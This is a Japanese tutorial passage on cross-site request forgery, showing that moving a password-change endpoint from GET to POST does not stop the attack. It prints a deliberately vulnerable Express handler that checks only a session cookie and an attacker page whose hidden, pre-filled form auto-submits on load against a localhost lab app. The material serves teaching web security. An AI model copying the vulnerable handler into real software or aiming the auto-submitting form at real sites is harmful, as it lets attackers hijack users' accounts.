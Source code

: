 # POST を使ってみる

前節では、認証機構を取り入れたとしても CSRF の脆弱性が発生することを確認しました。
本節では、まず前節のような、リンクを送信するだけで行える攻撃を無効化するために POST メソッドを導入します。その後、単純に POST メソッドを用いるだけでは、CSRF の脆弱性が存在したままであることを示します。

## HTTP メソッドについて

GET や POST といった HTTP メソッドについて概要を説明します。
HTTP メソッドは、指定した URL にどのような操作を要求するのかを、クライアントがサーバー側に伝えるものです。たとえば、GET メソッドを使った場合は、指定した URL のリソースを取得すること求めていますし、POST メソッドを使った場合は、指定した URL に対して、なんらかの情報を送信して、それに紐づいた操作を行うことを求めます。

詳しくは下記の記事を参考にしてください
https://developer.mozilla.org/ja/docs/Web/HTTP/Messages
https://developer.mozilla.org/ja/docs/Web/HTTP/Methods

重要なことは、サーバー側のアプリケーションにとって HTTP メソッドはただの取り決めであり、求められた理念とは異なる処理を容易に実行できてしまうことです。理念とは異なる処理とは、例えば GET メソッドにパスワード変更の処理を紐づけるなどです。

## サンプルアプリの説明

サンプルアプリは以下のような実装です

```ts
// /3-post-password-change-dangerous というパスに post メソッドのリクエストがきたときにこの処理を実行する
router.post("/3-post-password-change-dangerous", (req, res) => {
  // cookie から sessionId をとりだし、それを検証してログイン済みかどうか確かめる
  const sessionId = req.cookies["sessionId"];
  const { newPassword } = req.body;
  if (!sessionId || !sessionIds[sessionId]) res.send("login required");
  //   新しいパスワードが送られてきているか確かめて、パスワードを更新する
  else if (typeof newPassword !== "string") res.send("newPassword is required");
  else {
    const userName = sessionIds[sessionId].userName;
    changePassword(userName, newPassword);
    res.send("password changed!");
  }
});
```

前節のコードと大きく変わったところは、HTTP メソッドが get から post になったことです。
では、このエンドポイントをどのように使うのかを確認しましょう。

## パスワード変更の正常系

ユーザーは、以下のページにアクセスします。

http://localhost:3000/3-post-password-change-dangerous

すると、フォームが表示されます。ユーザーは新しいパスワードを入力し、submit ボタンを押します。すると、http://localhost:3000/3-post-password-change-dangerous に post リクエストがとび、パスワードが変更されます。
なお、get リクエストのときは、以下のような処理が実行されています

```ts
router.get("/3-post-password-change-dangerous", (_req, res) => {
  res.send(`
    <form id="form" action="http://localhost:3000/3-post-password-change-dangerous" method="post">
    <input name="newPassword" type="text" value=""></input>
    <button type="submit">submit</buttion>
    </form>
    `);
});
```

# 防御の検証

POST メソッドを使ったことで、前回と同じような攻撃はできなくなっています。以下に説明します。
前回は、悪意のあるリンクをユーザーに送ることで、ユーザーがそのリンクを踏むと同時にパスワード変更のリクエストが送信され、ユーザーのパスワードが攻撃者の指定したパスワードに変更されてしまいました。
POST メソッドの場合を考えてみると、以下の二つの点から上記の攻撃ができなくなっていることがわかります。

- リンクをクリックしたときには GET リクエストが送られるため、POST リクエストを送信するためには、ユーザーが明示的に submit ボタンを押さなければならないこと
- URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと

そのため、たとえば攻撃者が以下のようなリンクをユーザーに送ったとしても、前節のように攻撃が成功することはありません。
http://localhost:3000/3-post-password-change-dangero?newPassword=evil

# 攻撃の検証

しかし、この post メソッドを使った防御はあっさりと破られます。
順番に見ていきましょう。

## URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと

まず、「URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと」について攻撃側の対応策を考えます。ようは、フォームの初期値を指定できればいいのです。そして、フォームの input タグは初期値を指定できます。そのため、自分でウェブサイトを作って、フォームの初期値を指定したページを用意します。そして、submit したときの送信先を http://localhost:3000/3-post-password-change-dangero にすれば、攻撃者が指定したパスワードで更新させることが可能です。ついでに、新しいパスワードの input 要素を CSS でめっちゃ小さくしたり、透明にしてユーザーから見えなくし、submit ボタンをリンク遷移のボタンなどに見せかければ完璧でしょう。

## POST リクエストを送信するためには、ユーザーが明示的に submit ボタンを押さなければならないこと

次に、「POST リクエストを送信するためには、ユーザーが明示的に submit ボタンを押さなければならないこと」について対応策を考えます。
結論からいえば、javascript を使うことで、自動でフォームを送信することが可能です。フォームの初期値設定と組み合わせることで、ユーザーがリンクをクリックしてページが読み込まれた瞬間に、攻撃者が指定したパスワードに更新する POST リクエストを自動で送ることができるのです。

## 具体的な攻撃

攻撃者は、以下のようなページを用意します。

```ts
app.get("/3-post-password-change-dangerous", (_req, res) => {
  res.send(`
  <form id="form" action="${ORIGIN_BASE_URL}/3-post-password-change-dangerous" method="post" style="display: none;">
  <input name="newPassword" type=text value="aaaaaaa"></input>
  <button type="submit">submit</buttion>
  </form>
  <script>
      const form = document.getElementById("form")
      form.submit()
  </script>
`);
});
```

注目してほしいのは、以下の二点です。
まず、こちらでフォームの初期値を `aaaaaaa` に設定しています。

```html
<input name="newPassword" type=text value="aaaaaaa"></input>
```

次に、こちらでこのスクリプト部分が読み込まれた瞬間にフォームを送信しています。

```ts
const form = document.getElementById("form");
form.submit();
```

実際に攻撃してみましょう。以下のリンクにアクセスすると、上記のコードが実行され、パスワードが変更されたというログがでるはずです。
http://localhost:4000/3-post-password-change-dangerous
